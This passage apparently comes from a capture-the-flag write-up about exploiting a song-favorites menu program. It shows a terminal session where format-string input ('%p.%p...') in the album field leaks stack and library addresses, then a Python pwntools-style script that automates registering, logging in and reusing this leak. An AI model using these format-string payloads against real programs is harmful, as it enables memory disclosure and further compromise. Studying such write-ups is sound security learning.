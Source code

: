 ```
[~] Please enter a song title: a
[~] Please enter a who a is from: a
[~] Please enter which album  is on: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

[0] Register
[1] Log in
[2] Add a song to your favorites
[3] Display your favorites
[4] Exit
Please enter your choice [4]: [~] Please enter a song title: %p.%p.%p.%p.%p.%p
[~] Please enter a who %p.%p.%p.%p.%p.%p is from: x
[~] Please enter which album  is on: x
[-] Found an illegal character :(

[0] Register
[1] Log in
[2] Add a song to your favorites
[3] Display your favorites
[4] Exit
Please enter your choice [4]: 3
[~] Your favorites:
    - a - aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0x7ffc5efec630.(nil).0x7f4d16abb887.0x3.(nil).0x55eabded58f4 - a


[0] Register
[1] Log in
[2] Add a song to your favorites
[3] Display your favorites
[4] Exit
```

This primitive could be used infinitely, so we wrote functions to utilize them and automate the exploitation:

```python
# register
io.recvuntil(b"[0] Register")
io.sendline(b"0")
io.recvuntil(b"username:")
io.sendline(b"a")
io.recvuntil(b"password:")
io.sendline(b"a")

# login
io.recvuntil(b"[0] Register")
io.sendline(b"1")
io.recvuntil(b"username:")
io.sendline(b"a")
io.recvuntil(b"password:")
io.sendline(b"a")

def format(io, title, author, album):
    io.recvuntil(b"[0] Register")
    io.sendline(b"2")
    io.recvuntil(b"title:")
    io.sendline(title)
    io.recvuntil(b"from:")
    io.sendline(author)
    io.recvuntil(b"on:")
    io.sendline(album)
    io.recvuntil(b"[0] Register")
    io.sendline(b"3")
    io.recvuntil(b"- a - ")
```